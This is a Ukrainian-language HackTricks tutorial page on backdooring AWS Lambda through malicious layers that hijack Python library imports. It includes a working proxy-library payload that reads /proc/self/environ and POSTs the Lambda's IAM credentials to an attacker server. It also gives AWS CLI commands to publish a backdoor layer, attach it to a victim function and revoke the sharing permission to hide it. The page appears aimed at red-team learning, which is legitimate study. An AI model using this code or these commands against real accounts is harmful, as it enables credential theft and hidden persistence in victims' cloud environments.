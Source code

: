 # AWS - Збереження шарів Lambda

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Шари Lambda

Шар Lambda - це .zip-архів, який **може містити додатковий код** або інший вміст. Шар може містити бібліотеки, [власний рантайм](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), дані або файли конфігурації.

Можливо включити до **п'яти шарів на функцію**. Коли ви включаєте шар у функцію, **вміст розпаковується в каталог `/opt`** в середовищі виконання.

За **замовчуванням**, **шари**, які ви створюєте, **приватні** для вашого облікового запису AWS. Ви можете вибрати **поділитися** шаром з іншими обліковими записами або **зробити** шар **публічним**. Якщо ваші функції використовують шар, який опублікував інший обліковий запис, ваші функції можуть **продовжувати використовувати версію шару після його видалення або після скасування вашого дозволу на доступ до шару**. Однак ви не можете створити нову функцію або оновити функції, використовуючи видалену версію шару.

Функції, розгорнуті як зображення контейнера, не використовують шари. Замість цього ви упаковуєте ваш вибраний рантайм, бібліотеки та інші залежності в зображення контейнера під час побудови зображення.

### Шлях завантаження Python

Шлях завантаження, який використовуватиме Python в lambda, є наступним:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Перевірте, як **друга** та третя **позиції** зайняті каталогами, де **розпаковуються файли** **lambda layers**: **`/opt/python/lib/python3.9/site-packages`** та **`/opt/python`**

{% hint style="danger" %}
Якщо зловмисник **зміг вставити задній прохід** в використаний **шар lambda** або **додати один**, який буде **виконувати довільний код при завантаженні загальної бібліотеки**, він зможе виконати шкідливий код при кожному виклику lambda.
{% endhint %}

Отже, вимоги такі:

* **Перевірте бібліотеки**, які **завантажуються** кодом жертви
* Створіть **проксі-бібліотеку з шарами lambda**, яка буде **виконувати власний код** та **завантажувати оригінальну** бібліотеку.

### Попередньо завантажені бібліотеки

{% hint style="warning" %}
Під час зловживання цією технікою я зіткнувся з труднощами: Деякі бібліотеки **вже завантажені** в час виконання python, коли ваш код виконується. Я очікував знайти такі речі, як `os` або `sys`, але **навіть бібліотека `json` була завантажена**.\
Для зловживання цією технікою постійності, код повинен **завантажити нову бібліотеку, яка не завантажується** під час виконання коду.
{% endhint %}

З кодом python, подібним до цього, можна отримати **список бібліотек, які попередньо завантажені** в середовищі виконання python в lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
І ось це **список** (перевірте, що бібліотеки, такі як `os` або `json`, вже там)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Це список **бібліотек**, які **lambda включає встановленими за замовчуванням**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Підставлення в Lambda Layer

У цьому прикладі давайте припустимо, що цільовий код імпортує **`csv`**. Ми будемо **підставляти імпорт бібліотеки `csv`**.

Для цього ми створимо каталог csv з файлом **`__init__.py`** в ньому за шляхом, який завантажується lambda: **`/opt/python/lib/python3.9/site-packages`**\
Потім, коли lambda виконується і намагається завантажити **csv**, наш **файл `__init__.py` буде завантажений і виконаний**.\
Цей файл повинен:

* Виконати нашу вразливість
* Завантажити оригінальну бібліотеку csv

Ми можемо це зробити за допомогою:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Потім створіть zip-архів з цим кодом за шляхом **`python/lib/python3.9/site-packages/__init__.py`** та додайте його як шар лямбди.

Ви можете знайти цей код за посиланням [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Інтегрований вразливий код **надсилатиме IAM-повноваження на сервер ПЕРШИЙ РАЗ, коли його викликають або ПІСЛЯ скидання контейнера лямбди** (зміна коду або холодна лямбда), але **інші техніки**, такі як наступні, також можуть бути інтегровані:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Зовнішні шари

Зверніть увагу, що можна використовувати **шари лямбди з зовнішніх облікових записів**. Більше того, лямбда може використовувати шар з зовнішнього облікового запису навіть якщо у нього немає дозволів.\
Також зверніть увагу, що **максимальна кількість шарів, яку може мати лямбда, - 5**.

Отже, для покращення універсальності цієї техніки зловмисник може:

* Вразити існуючий шар користувача (нічого зовнішнього)
* **Створити** **шар** у **своєму обліковому записі**, надати **користувачеві доступ до використання шару**, **налаштувати** **шар** в лямбді жертви та **видалити дозвіл**.
* Лямбда все ще зможе **використовувати шар**, а жертва не матиме простого способу **завантажити код шарів** (окрім отримання оберненого шелу всередині лямбди)
* Жертва **не побачить зовнішні шари**, використані з **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
